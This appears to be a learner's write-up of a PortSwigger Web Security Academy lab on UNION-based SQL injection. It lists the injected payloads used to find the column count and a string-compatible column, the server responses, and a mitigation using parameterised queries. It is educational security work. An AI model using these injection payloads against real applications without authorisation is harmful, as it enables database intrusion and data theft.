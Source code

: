 # SQL Injection - UNION Attack: Identify Column with String Data

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. 

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you **determine which columns are compatible with string data**.

---

## Process

### 1. Intercepted the GET Request and Sent to Repeater (using Burp Suite)
```http
GET /filter?category=Gifts HTTP/2
```

### 2. Modified the category parameter to Determine Column Count

```sql
' UNION SELECT NULL--
```
Response: HTTP/2 500 Internal Server Error

```sql
' UNION SELECT NULL,NULL--
```
Response: HTTP/2 500 Internal Server Error

```sql
' UNION SELECT NULL,NULL,NULL--
```
Response: HTTP/2 200 OK

![burpsuite response](./misc-images/04-1.png)

Confirmed the number of columns = 3, as response returned HTTP 200.

Alternative approach: Using `ORDER BY` can also determine the column count. An error will be displayed at `' ORDER BY 4`.

### 3. Identified Column Accepting String Output

```sql
' UNION SELECT 'a',NULL,NULL--
```
Response: HTTP/2 500 Internal Server

```sql
' UNION SELECT NULL,'a',NULL--
```
Response: HTTP/2 200 OK

Injected `'a'` is a visible test string and will appear on the page if the injection works.

![burpsuite response](./misc-images/04-2.png)

But, this did not solve the lab. The response included a hint: Make the database should retrieve the string 'xE5jkD'

### 4. Solved the Lab Using the Required Payload

```sql
' UNION SELECT NULL,'xE5jkD',NULL--
```

![burpsuite response](./misc-images/04-3.png)

As expected, the response said "Congratulations you solved the lab!"

### 5. Forwarded the Final Payload

Forwarded the final payload and confirmed that the  injected string 'xE5jkD' was displayed on the webpage.

![portswigger webpage](./misc-images/04-5.png)

---

## Mitigation

Use parameterised queries (prepped statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

---

## Reflection

-Learned the second step of a UNION-based SQL injection: identifying the columns with string data using `UNION SELECT` query.

---

## Notes

